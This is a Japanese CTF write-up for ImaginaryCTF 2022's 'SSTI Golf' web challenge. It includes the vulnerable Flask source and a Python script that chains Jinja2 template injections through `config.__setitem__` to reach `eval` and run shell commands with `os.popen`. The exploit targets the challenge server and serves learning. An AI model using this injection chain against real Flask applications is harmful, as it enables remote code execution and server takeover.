 ```yaml
---
layout: chall
ctf_name: imaginaryctf_2022
problem_name: SSTI Golf
genre: web
solved_date: 2022-07-17
during_ctf: true
tag: [flask,ssti]
fav: false
difficulty: easy
---
```


### 概要

SSTI できる flask のアプリケーションが与えられる。ペイロードは48 文字以下しか許可されていない。

<details><summary>コード</summary>

```py
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 48:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

</details>


### 解法

まず、 `{{self._TemplateReference__context}}` というペイロードを送って有用なオブジェクトを探した。その結果、`joiner` というオブジェクトがクラスであることが分かった。これを用いれば、`{{joiner.__init__.__globals__.__builtins__.eval(request.arg.q)}}` といった形で任意コード実行ができるはずである。このままでは文字数が長すぎるため、`config.__setitem__` を用いて式の途中経過を逐次保存することで制限をバイパスした。。

<details><summary>スクリプト</summary>

```py
import requests

def send(query, **kwargs):
  req = requests.get(
    "http://sstigolf.chal.imaginaryctf.org/ssti",
    {
      "query": '{{' + query + '}}',
      **kwargs
    }
  )
  return req.text

send("config.__setitem__('s','__setitem__')")
send("config[config.s]('a',joiner.__init__)")
send("config[config.s]('a',config.a.__globals__)")
send("config[config.s]('a',config.a.__builtins__)")
while True:
  print(send("config.a.eval(request.args.q)", q=f"__import__('os').popen('{input('> ')}').read()"))
```

</details>


